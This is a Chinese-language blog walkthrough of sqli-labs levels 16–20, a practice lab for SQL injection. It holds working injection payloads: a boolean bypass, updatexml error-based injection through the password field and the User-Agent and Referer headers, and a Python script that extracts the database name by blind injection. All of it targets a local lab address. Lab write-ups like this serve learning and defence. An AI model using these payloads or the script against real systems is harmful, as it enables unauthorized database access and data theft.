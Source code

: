 ```yaml
---
layout: post
title: "sqli-labs-第16关->第20关"
subtitle: "sqli-labs-第16关->第20关"
date: 2019-09-03
author: ppbibo
category: security
finished: true
---
```

[TOC]

接着上篇：[传送门](https://6o9.im/security/2019/08/30/sqli-labs-2.html)



## sqli-labs 第16关

先查看源代码

![sqli-labs-16](/static/img/sqli-labs-16.png)



直接闭合掉前面的 **RT：**

```bash
POST：http://192.168.1.102/sqli-labs/Less-16/

uname=a") or 1=1#
```

![sqli-labs-16-1](/static/img/sqli-labs-16-1.png)



输出脚本 **RT**：

```python

import requests

sql_url = "http://192.168.1.102/sqli-labs/Less-16/"

for j in range(9): # 前面知道了数据库长度为8位

    for i in range(97, 123):  # ascii 码值 a-z : 97-122

        re = requests.request("POST",url=sql_url,data={"uname":"1\") or ord(mid((select database()),{},1))={}#".format(j,i),"passwd":"1"})

        if "flag.jpg" in re.text:

            print(chr(i))
```

![sqli-labs-16-2](/static/img/sqli-labs-16-2.png)



SQL语句解析

```mysql
1' or ord(mid((select database()),1,1))={}#

select database();  -- 当前数据库名称 "security"
select mid((select database()),1,1);  -- mid() 截断从第一位往后截断一个 "s"
select ord("s");    -- 将 "s" 转换成ascci码 115

print(chr(i))  # 在python中chr方法将 "i" ascci码值转换成对应的字符。
```



## sqli-labs 第17关

先看源代码 **RT:**

![sqli-labs-17](/static/img/sqli-labs-17.png)

![sqli-labs-17-1](/static/img/sqli-labs-17-1.png)



直接使用报错注入 **RT**：

```bash
uname=admin
passwd=1' or (updatexml(1,concat(0x3a,(select database())),1))#
```

![sqli-labs-17-2](/static/img/sqli-labs-17-2.png)



## sqli-labs 第18关

看源码 **RT:**

![sqli-labs-18](/static/img/sqli-labs-18.png)

![sqli-labs-18-1](/static/img/sqli-labs-18-1.png)

上面首先uname 和 passwd 参数都进行严格的校验，进行了账号密码是否正确的判断，正确的话则向 uagents 表下插入上面接收的 `$uagent` / `$IP` / `$uname` 其中 `$uagent` 和 `$IP` 没有做任何的校验，可以直接注入，如图：

```bash
User-Agent: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sqli-labs-18-2](/static/img/sqli-labs-18-2.png)

  

## sqli-labs 第19关

查看源代码

![sqli-labs-19](/static/img/sqli-labs-19.png)

跟上一关是一样的唯一不同的点是 `$uagent` 变量获取的是 HTTP 协议头 `Referer` ，

`$uagent` 和 `$ip` 变量没有进行任何校验，两个都可以注入，这里使用`uagent`参数来示范，

（`$ip` 变量获取的是HTTP协议中的 `X-Forwarded-For` 协议头 ）**RT:**

```bash
Referer: 1' or updatexml(1,concat(0x3a,(database())),0),'','')#
```

![sqli-labs-19-1](/static/img/sqli-labs-19-1.png)



## sqli-labs 第20关

直接查看源代码 **RT:**

![sqli-labs-20](/static/img/sqli-labs-20.png)

发现做了严格的校验，拼接的sql中并没有发现敏感的参数，发现事情没有那么简单

看下图：

![sqli-labs-20-1](/static/img/sqli-labs-20-1.png)



emmmm.... 都懂吧。。。直接上图了。

![sqli-labs-20-2](/static/img/sqli-labs-20-2.png)

![sqli-labs-20-3](/static/img/sqli-labs-20-3.png)

![sqli-labs-20-4](/static/img/sqli-labs-20-4.png)



## 总结

没啥总结的，认真校验任何与sql语句拼接的参数可有效防止SQL注入的产生，回家吃手抓饼去了。😁





------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***